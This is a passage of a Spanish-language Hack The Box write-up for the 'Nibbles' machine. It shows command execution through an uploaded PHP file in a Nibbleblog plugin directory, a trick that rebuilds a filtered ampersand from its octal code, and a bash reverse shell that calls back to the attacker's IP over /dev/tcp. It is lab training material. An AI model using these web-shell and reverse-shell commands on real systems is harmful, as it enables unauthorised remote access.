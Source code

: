 ![](/assets/images/htb-nibbles/nibbles-web9.png)

Vamos a seleccionar nuestro archivo y tratar de ejecutar algún comando a nivel de sistema.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=whoami
```

![](/assets/images/htb-nibbles/nibbles-web10.png)

Tenemos ejecución de comandos a nivel de sistema, por lo tanto, trataremos de entablarnos una reverse shell; así que nos podremos en escucha por el puerto 443 y ejecutamos nuestro comando. Si tratamos varias veces, vemos que no podemos entablarnos la reverse shell, esto se debe a que existen caracteres que al servidor no le gusta; por lo tanto vamos a probar de ver que caracteres son utilizando `bash -i >& /dev/tcp/10.10.14.27/443 0>&1`.

```bash
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo "/"
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo "&"
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo ">"
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php?cmd=echo "-"
```

El único caracter que no vemos es **&**; por lo tanto vamos a declarar una variable cuyo valor lo expresaremos en forma octal de dicho caracter (046 - lo obtenemos de `man ascii`).

```bash
❯ ampersan=$(printf '\046'); echo $ampersan
&
```

Por lo tanto, nuestra reverse shell nos quedaría de la siguiente forma:

```bash
ampersan=$(printf '\046'); bash -c "bash -i >$ampersan /dev/tcp/10.10.14.27/443 0>$ampersan 1"
```
